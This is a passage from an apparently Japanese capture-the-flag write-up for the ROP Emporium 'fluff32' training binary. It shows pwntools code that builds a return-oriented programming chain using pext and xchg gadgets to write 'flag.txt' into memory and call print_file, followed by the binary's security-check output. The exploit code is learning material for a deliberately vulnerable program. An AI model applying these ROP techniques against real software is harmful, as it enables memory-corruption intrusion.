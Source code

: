     log.info(f"masks:{masks}")
    log.info("###############################################")
    log.info("# WRITE TO ADDRESS #")
    log.info("###############################################")

    chain = b""
    index = 0
    for mask in masks[::-1]:
        chain += p32(pop_ebp)
        mask_int_val = int(mask,2)
        mask_byte_str = pack(mask_int_val,32)
        log.info(f"mask_int_val:{mask_int_val}")
        print(f"mask_byte_str:{mask_byte_str}")
        chain += mask_byte_str
        chain += p32(pext)
        chain += fill_ecx(adr+index)
        chain += p32(xchg_ecx_dl)
        index += 1
    return chain
def exploit():
    rop = b'A'*44
    rop+=write_to_adr(b'flag.txt',bss_address,64)
    rop+=p32(print_file)
    rop+=b'BBBB'
    rop+=p32(bss_address)
    return rop



# print(bin(0xb0bababa)[2:])
log.info(f'src: {bin(0xb0bababa)[2:]}')
log.info(f"created_mask:{create_mask(bytes2bin(b'l',8),bin(0xb0bababa)[2:],8)}")
log.info(f'b"l":{bytes2bin(b"l",8)}')
write_to_adr(b'flag.txt',bss_address,64)
# print(bytes2bin(b'flag.txt',64))
# example b'l'
#10110000101110101011101010111010  bin(0xb0bababa)[2:]
#00000000000000000000001011011101  created_mask
#00000000000000000000000001101100  望むやつ
# write_to_adr(b'flag.txt',bss_address)
rop = exploit()
p = process(BINARY)
p.sendline(rop)
flag = p.recvall()
print(flag)
output_data(rop)
```

今回pextのために作った関数はこの先も使うだろうからライブラリ化しておかなきゃなー

```
✦ ❯ python3 solve.py 
[*] '/mnt/nvme0n1p7/security/rop-emporium/fluff32/fluff32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  b'.'